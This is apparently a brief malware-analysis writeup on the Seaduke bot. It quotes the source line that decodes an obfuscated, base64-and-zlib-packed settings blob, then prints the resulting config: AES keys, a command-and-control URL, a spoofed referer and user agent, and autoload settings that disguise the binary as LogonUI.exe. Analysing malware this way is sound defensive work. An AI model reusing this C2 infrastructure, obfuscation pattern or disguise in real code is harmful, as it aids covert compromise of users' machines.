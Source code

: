 # what is `bot_settings`?
one of the first things the script does is fetch bot settings:
```python
# https://github.com/mynameisvinn/Seaduke/blob/f37849cc10336dbe0279a343a509b921109fdca2/source.py#L235
bot_settings=json_loads(zlib_decompress(base64_b64decode('eJx1kF1PwjAUhv/K0iuNpiUMg8Fw4QSTAfFrQQ3GNN12Nua2dpyWj0n877ZAvPOqzTnP+77nnD3JCtSG41ryFCrRkoHXufRICa223z0R4F4yDb/i7wVb7NLx1XTUfVf6fRXG4xTvdq1fr0ZRNHub9IP70ldDYvVWxouNUyYVzKdhcVHfvkbTWbf/2Juw+fNwSH4ctjaqUiLlGowpZH7MhB1wKWpw8pnKlZyH1NYOvk3zX8uODwa4yAygbWei0uAylsrupxMsGuPsP8jSmGbAWK1kYRRS3UqaSIZa02bZkE8rQcgADy4HWFt6u93STCQQK1XSRNXMRa41IBc5SOPQqDAQCGQ+9em1dxZYshZYehHgBvDGO+Vqi8UCqcKcnZPjrXmROoenXvCweOm4IkgRV3ab04H+FvoFdgWNdw==')))

bot_settings['bot_id']= id_generator(size=4)+ '-' + bot_settings['key_id']  # generate random id for thsi bot
```
when executed, `bot_settings` points to a dict:
```python
{'first_run_delay': 0,
'keys': {'aes': 'KIjbzZ/ZxdE5KD2XosXqIbEdrCxy3mqDSSLWJ7BFk3o=', 'aes_iv': 'cleUKIi+mAVSKL27O4J/UQ=='},
'autoload_settings': {'exe_name': 'LogonUI.exe', 'app_name': 'LogonUI.exe', 'delete_after': False},
'host_scripts': ['http://monitor.syn.cn/rss.php'],
'referer': 'https://www.facebook.com/',
'user_agent': 'SiteBar/3.3.8 (Bookmark Server; http://sitebar.org/)',
'key_id': 'P4BNZR0',
'enable_autoload': False}
```
this dict tells the bot a number of important things such as `host_scripts`.